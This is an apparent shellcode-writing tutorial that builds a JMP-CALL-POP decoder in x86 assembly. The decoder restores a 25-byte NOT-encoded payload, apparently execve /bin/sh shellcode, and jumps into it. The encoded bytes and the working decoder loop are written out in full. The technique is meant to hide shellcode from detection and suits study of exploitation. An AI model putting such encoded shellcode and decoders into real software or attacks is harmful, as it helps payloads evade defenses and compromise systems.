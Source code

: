 Now I am going to use JMP-CALL-POP technique to find the address of
our encoded shellcode.

```asm
global _start

section .text
_start:
        jmp short call_shellcode

decoder:

decode:


call_shellcode:

        call decoder
        EncodedShellcode: db 0xce,0x3f,0xaf,0x97,0xd0,0xd0,0x8c,0x97,0x97,0xd0,0x9d,0x96,0x91,0x76,0x1c,0xaf,0x76,0x1d,0xac,0x76,0x1e,0x4f,0xf4,0x32,0x7f
```

In the `decoder` I want to get the address of `EncodedShellcode`. Let's do this by simple `pop esi`. And now in the `decode` part basically
I want to `not` back to get the original shellcode. Now if you 
remember the length of the shellcode which we had seen was 25.
So let me run the `loop` for which I will use `ecx` register

```
xor ecx, ecx
mov cl, 25
```

And the `decode` part is gonna be very very simple. Just apply `not`

```
not byte [esi]
inc esi
loop decode
```

And after the `loop` we want to jump to decoded shellcode

```
jmp short EncodedShellcode
```

```asm
global _start

section .text
_start:
        jmp short call_shellcode

decoder:
        pop esi
        xor ecx, ecx
        mov cl, 25

decode:
        not byte[esi]
        inc esi
        loop decode

        jmp short EncodedShellcode

call_shellcode:

        call decoder
```